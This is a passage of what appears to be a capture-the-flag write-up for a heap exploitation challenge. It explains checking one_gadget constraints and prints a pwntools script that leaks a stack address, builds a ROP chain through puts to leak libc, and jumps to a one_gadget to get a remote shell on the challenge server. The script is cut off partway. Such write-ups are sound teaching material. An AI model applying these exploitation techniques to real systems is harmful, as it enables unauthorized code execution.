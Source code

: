 Pretty much the trick for this is to set a breakpoint right before your final exploit would jump to the one gadget and just go down the list checking if the constraints are met. The last one will do for us. If you ever fail to meet any of the constraints, there are two options. You can either fish around for gadgets that will cause you to meet the constraints, or you can just ROP directly out of libc since its leaked anyway. So now we can calculate the one gadget address and retrigger the exploit to bring it home.
```python
# Finally use libc leak to rop to one_gadget
magic = libc.address + one_gadget
write(str(0xdeadbeef).encode(), 0, p64(magic))
p.interactive()
```

This works great locally and sure enough we get a shell on their remote system. Here is the full script in order with all the interaction helpers as well:
```python
from pwn import *

#p = process('./chall')
p = remote('161.97.155.116', 45384)

def create(size):
    p.recvuntil(b'> ')
    p.sendline(b'1')
    p.recvuntil(b'allocation: ')
    p.sendline(str(size).encode())
    p.recvuntil(b'created: ')
    key = p.recvline()[:-1]
    return key

def write(key, offset, payload):
    p.recvuntil(b'> ')
    p.sendline(b'2')
    p.recvuntil(b'key: ')
    p.sendline(key)
    p.recvuntil(b'offset: ')
    p.sendline(str(offset).encode())
    p.recvuntil(b'payload: ')
    p.send(payload)

def delete(key):
    p.recvuntil(b'> ')
    p.sendline(b'3')
    p.recvuntil(b'key: ')
    p.sendline(key)

# Collect leak and calculate target address
p.recvuntil(b'for you: ')
choice_addr = int(p.recvline().strip(), 16)
log.info(f'Leaked stack: {hex(choice_addr)}')
target = choice_addr - 0x44c
log.info(f'Writing chain to {hex(target)}')

# Build rop chain for exploitation
pop_rdi = 0x00401663
one_gadget = 0xef52b

elf = ELF('./chall')
libc = elf.libc
chain = p64(pop_rdi)
chain += p64(elf.got['puts'])
chain += p64(elf.symbols['puts'])
chain += p64(elf.symbols['main'])

# Setup forged root node
```